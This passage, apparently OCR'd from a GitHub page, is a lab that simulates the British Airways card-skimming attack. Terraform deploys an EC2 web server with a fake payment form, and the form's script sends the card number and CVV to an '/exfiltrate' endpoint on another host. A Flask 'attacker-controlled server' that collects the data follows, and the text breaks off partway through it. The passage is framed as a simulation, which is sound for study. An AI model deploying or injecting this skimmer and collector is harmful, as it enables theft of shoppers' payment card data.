 ```hcl
                  <h1>Payment Information</h1>
                  <form id="payment-form">
                      <label for="card-number">Card Number:</label>
                      <input type="text" id="card-number" name="card-number"><br><br>
                      <label for="cvv">CVV:</label>
                      <input type="text" id="cvv" name="cvv"><br><br>
                      <button type="submit">Submit</button>
                  </form>
                  <script>
                      document.getElementById('payment-form').addEventListener('submit', function(e) {
                          e.preventDefault();
                          var cardNumber = document.getElementById('card-number').value;
                          var cvv = document.getElementById('cvv').value;
                          fetch('http://${chomp(data.http.local_ip.response_body)}:8001/exfiltrate', {
                              method: 'POST',
                              headers: {
                                  'Content-Type': 'application/json',
                              },
                              body: JSON.stringify({ cardNumber: cardNumber, cvv: cvv }),
                          });
                      });
                  </script>
              </body>
              </html>
              HTML
              EOF
  tags = {
    Name = "british-airways-sim-ec2"
  }
}

output "web_server_public_ip" {
  value = aws_instance.web_server.public_ip
}
```

### Python Code for Simulating Data Exfiltration

This Python script simulates an attacker-controlled server that receives the exfiltrated payment data sent by the malicious JavaScript.

```python
from flask import Flask, request, make_response
import json
from datetime import datetime

app = Flask(__name__)


# Function to add CORS headers to responses
def add_cors_headers(response):
    response.headers['Access-Control-Allow-Origin'] = '*'  # Allows requests from any origin
    response.headers['Access-Control-Allow-Methods'] = 'POST, OPTIONS'  # Allowed methods
    response.headers['Access-Control-Allow-Headers'] = 'Content-Type'  # Allowed headers
    return response


@app.route('/exfiltrate', methods=['POST', 'OPTIONS'])
def exfiltrate():
    if request.method == 'OPTIONS':
        # Handle the CORS preflight request
        response = make_response()
```